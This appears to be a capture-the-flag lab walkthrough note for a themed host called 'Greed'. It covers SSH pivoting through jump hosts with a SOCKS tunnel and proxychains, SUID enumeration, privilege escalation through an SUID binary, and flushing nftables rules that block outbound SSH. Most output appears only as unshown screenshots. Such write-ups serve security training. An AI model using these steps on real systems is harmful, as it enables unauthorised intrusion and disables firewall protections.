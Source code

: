 ### Greed
- IP - 10.0.0.254

###### Setup a NEW dynamic tunnel to reach 10.0.0.254
```
ssh -N -D 1080 -J virgil@192.168.1.200,cleopatra@172.1.98.15 cerberus@10.1.10.3
```

##### ssh to 10.0.0.254
```
proxychains ssh pluto@10.0.0.254
```
##### cat greed.txt
```
Only I can access the treasure.
```
![[Pasted image 20250531203502.png]]
##### Try sudo
![[Pasted image 20250531203614.png]]
##### Try ssh to next hop
```
ssh phlegyas@255.255.255.9
```
![[Pasted image 20250531203422.png]]

##### iptables
![[Pasted image 20250531203727.png]]
##### nftables
```
nft list ruleset
```
![[Pasted image 20250531203812.png]]

##### SUID bits set
```
find / -type f -perm -4000 2>/dev/null
```
![[Pasted image 20250531204550.png]]
##### escalate
```
/opt/greed/.gold
```
![[Pasted image 20250531204716.png]]

##### nftables
```
nft list ruleset
```
![[Pasted image 20250531204912.png]]
##### Remove the rule
```
sudo nft delete rule ip filter output tcp dport 22 reject
```
![[Pasted image 20250531205357.png]]
	no handle is set so the rule cannot be deleted this way
```
nft flush chain ip filter output
```
![[Pasted image 20250531210311.png]]
